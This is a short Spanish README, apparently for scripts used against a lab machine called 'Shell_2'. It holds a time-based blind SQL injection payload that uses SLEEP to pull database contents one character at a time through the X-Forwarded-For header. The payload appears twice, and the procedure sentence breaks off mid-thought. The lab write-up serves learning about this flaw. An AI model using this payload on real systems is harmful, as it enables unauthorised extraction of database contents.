 # Shell2SQLi
Este repositorio contiene scripts utilizados para `Shell_2`, una máquina con vulnerabilidad SQLi Blind.

## Consideraciones de la máquina

Algunas consideraciones
> El host `192.168.44.134` no está editado en los scripts, la VM se utilizó con configuración NAT
> 
> Uso de encabezado `X-Forwarded-For`
> 
> https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval
> 
## Impacto vulnerabilidad SQLi

### Procedimiento:
Partiendo de la base en la que podemos validar una inyección exitosa con
```mysql
1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
Procedimos a 
```python
1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
    
## Disclaimer

El autor no se hace responsable de algún uso inadecuado del repositorio que pueda causar impactos negativos. El propósito es y sólo es, con fines educativos.
Las contribuciones son bienvenidas, también siéntete libre de mejorar y modificar según sea necesario.
